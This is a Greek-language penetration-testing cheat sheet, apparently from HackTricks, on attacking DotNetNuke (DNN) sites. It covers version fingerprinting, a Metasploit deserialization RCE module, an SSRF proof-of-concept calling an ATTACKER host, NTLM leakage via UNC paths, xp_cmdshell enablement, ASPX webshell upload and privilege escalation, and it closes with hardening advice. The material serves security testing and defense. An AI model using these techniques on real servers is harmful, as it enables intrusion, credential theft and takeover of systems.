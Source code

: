 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Αν εισέλθετε ως **administrator** στο DNN, είναι εύκολο να αποκτήσετε **RCE**, ωστόσο έχουν δημοσιευθεί αρκετές *unauthenticated* και *post-auth* τεχνικές τα τελευταία χρόνια. Το παρακάτω cheat-sheet συγκεντρώνει τις πιο χρήσιμες πρωτογενείς μεθόδους τόσο για επιθετική όσο και για αμυντική εργασία.

---
## Έκδοση & Αριθμός Περιβάλλοντος

* Ελέγξτε το *X-DNN* HTTP response header – συνήθως αποκαλύπτει την ακριβή έκδοση της πλατφόρμας.
* Ο οδηγός εγκατάστασης διαρρέει την έκδοση στο `/Install/Install.aspx?mode=install` (προσβάσιμο σε πολύ παλιές εγκαταστάσεις).
* `/API/PersonaBar/GetStatus` (9.x) επιστρέφει ένα JSON blob που περιέχει το `"dnnVersion"` για χρήστες χαμηλών δικαιωμάτων.
* Τυπικά cookies που θα δείτε σε μια ζωντανή εγκατάσταση:
* `.DOTNETNUKE` – ASP.NET forms authentication ticket.
* `DNNPersonalization` – περιέχει XML/serialized δεδομένα προφίλ χρήστη (παλιές εκδόσεις – δείτε RCE παρακάτω).

---
## Μη Αυθεντική Εκμετάλλευση

### 1. Deserialization RCE Cookie (CVE-2017-9822 & follow-ups)
*Επηρεαζόμενες εκδόσεις ≤ 9.3.0-RC*

`DNNPersonalization` αποδομείται σε κάθε αίτημα όταν είναι ενεργοποιημένος ο ενσωματωμένος χειριστής 404. Έτσι, το κατεργασμένο XML μπορεί να οδηγήσει σε αυθαίρετες αλυσίδες gadget και εκτέλεση κώδικα.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Το module επιλέγει αυτόματα τη σωστή διαδρομή για τις διορθωμένες αλλά ακόμα ευάλωτες εκδόσεις (CVE-2018-15811/15812/18325/18326). Η εκμετάλλευση λειτουργεί **χωρίς αυθεντικοποίηση** σε 7.x–9.1.x και με έναν *επιβεβαιωμένο* λογαριασμό χαμηλών δικαιωμάτων σε 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Επηρεαζόμενες εκδόσεις < 9.13.8  –  Διόρθωση που εκδόθηκε Απρίλιο 2025*

Μια παράκαμψη της παλαιότερης διόρθωσης `DnnImageHandler` επιτρέπει σε έναν επιτιθέμενο να αναγκάσει τον διακομιστή να εκδώσει **τυχαία GET αιτήματα** (ημι-τυφλό SSRF). Πρακτικές επιπτώσεις:

* Εσωτερική σάρωση θυρών / ανακάλυψη υπηρεσιών μεταδεδομένων σε αναπτύξεις cloud.
* Πρόσβαση σε hosts που αλλιώς είναι φραγμένοι από το Διαδίκτυο.

Απόδειξη της έννοιας (αντικαταστήστε `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Η αίτηση ενεργοποιείται στο παρασκήνιο. Παρακολουθήστε τον ακροατή σας για callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*Επηρεαζόμενες εκδόσεις 6.0.0 – 9.x (< 10.0.1)*

Ειδικά κατασκευασμένο περιεχόμενο μπορεί να κάνει το DNN να προσπαθήσει να αποκτήσει μια πηγή χρησιμοποιώντας μια **UNC διαδρομή** όπως `\\attacker\share\img.png`.  Τα Windows θα εκτελέσουν ευχαρίστως τη διαπραγμάτευση NTLM, διαρρέοντας τους hash λογαριασμού του διακομιστή στον επιτιθέμενο.  Αναβαθμίστε σε **10.0.1** ή απενεργοποιήστε το SMB εξόδου στο τείχος προστασίας.

### 4. IP Filter Bypass  (CVE-2025-52487)
Εάν οι διαχειριστές βασίζονται σε *Host/IP Filters* για την προστασία της πύλης διαχείρισης, να γνωρίζετε ότι οι εκδόσεις πριν από **10.0.1** μπορούν να παρακαμφθούν με την παραποίηση του `X-Forwarded-For` σε σενάριο αντίστροφης προώθησης.

---
## Post-Authentication to RCE

### Via SQL console
Κάτω από **`Settings → SQL`** ένα ενσωματωμένο παράθυρο ερωτήματος επιτρέπει την εκτέλεση κατά της βάσης δεδομένων του ιστότοπου.  Στον Microsoft SQL Server μπορείτε να ενεργοποιήσετε το **`xp_cmdshell`** και να δημιουργήσετε εντολές:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via ASPX webshell upload
1. Go to **`Settings → Security → More → More Security Settings`**.
2. Append `aspx` (or `asp`) to **Allowable File Extensions** and **Save**.
3. Browse to **`/admin/file-management`** and upload `shell.aspx`.
4. Trigger it at **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation on Windows
Once code execution is achieved as **IIS AppPool\<Site>**, common Windows privilege-escalation techniques apply.  If the box is vulnerable you can leverage:

* **PrintSpoofer** / **SpoolFool** to abuse *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** to escape *Service Accounts*.

---
## Hardening Recommendations (Blue Team)

* **Upgrade** to at least **9.13.9** (fixes SSRF bypass) or preferably **10.0.1** (IP filter & NTLM issues).
* Remove residual **`InstallWizard.aspx*`** files after installation.
* Disable outbound SMB (ports 445/139) egress.
* Enforce strong *Host Filters* on the edge proxy rather than within DNN.
* Block access to `/API/RemoteContentProxy` if unused.

## References

* Metasploit `dnn_cookie_deserialization_rce` module documentation – practical unauthenticated RCE details (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & patch information.
{{#include ../../banners/hacktricks-training.md}}
